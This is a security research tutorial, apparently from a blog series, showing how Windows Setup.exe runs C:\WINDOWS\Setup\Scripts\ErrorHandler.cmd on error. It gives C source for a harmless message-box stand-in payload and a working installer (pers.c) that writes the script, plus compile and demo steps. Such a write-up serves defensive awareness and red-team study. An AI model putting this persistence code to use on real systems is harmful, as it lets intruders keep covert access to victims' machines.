


# 05 - persistence via Windows Setup.

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows Setup script.     

### setup script

`C:\WINDOWS\system32\oobe\Setup.exe` is an executable file on the Windows operating system. The `oobe` directory stands for *"Out Of Box Experience,"* which is part of the process users go through when they are setting up Windows for the first time, such as creating a user account, setting preferences, choosing default settings, etc.     

{:class="img-responsive"}    

Turns out, if you place your payload in `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` will load it whenever an error occurs.     

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox "malware" application (`hack.c`):  

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create file `ErrorHandler.cmd` for persistence:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

As you can see, the logic is pretty simple.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{:class="img-responsive"}    

Then, move our `ErrorHandler.cmd` to `C:\Windows\Setup\Scripts\`:     

{:class="img-responsive"}    

Ok, the next step, need to run `Setup.exe` with error. The simplest method is to execute `Setup.exe` without any arguments:     

```powershell
.\Setup.exe
```

{:class="img-responsive"}    

If we open `Process Hacker` and see properties of `hack.exe`:     

{:class="img-responsive"}    

we can notice that its parent process is `cmd.exe (7264)`,       

{:class="img-responsive"}    

In turn, its parent is the `Setup.exe (4876)` process:     

{:class="img-responsive"}    

As you can see, our persistence logic works perfectly! =^..^=         

### practical example 2. persistence script

For the sake of completeness of the experiment, I created a file `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Note that, this program needs to be run with administrator rights as it's trying to create a directory and a file under `C:\WINDOWS`, which requires administrative privileges.     

{:class="img-responsive"}    

### demo 2

Let's go to see everything in action. Compile our persistence script:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{:class="img-responsive"}    

Then, just run it with administrative privileges on the victim's machine:     

```powershell
.\pers.exe
```

{:class="img-responsive"}    

In my case, before run it I deleted this folder:    

{:class="img-responsive"}    

Run, `Setup.exe` again:    

{:class="img-responsive"}    

{:class="img-responsive"}    

Perfect! =^..^=    

### conclusion

This is a common filename for an installer package. In this case, it's part of Windows's setup and initialization process. It's used during the installation of the operating system, as well as when adding or modifying features and components.     

As you can see, however, please note that although it is a legitimate part of the Windows operating system, malicious programs can sometimes name themselves `Setup.exe` to avoid detection.      

There are also other files to inside the `c:\WINDOWS\system32\oobe\` folder:      

{:class="img-responsive"}    

I have not checked them.     

This trick has been previously researched by [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

{:class="img-responsive"}    

, I just show the dirty PoC code in C: `pers.c`.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
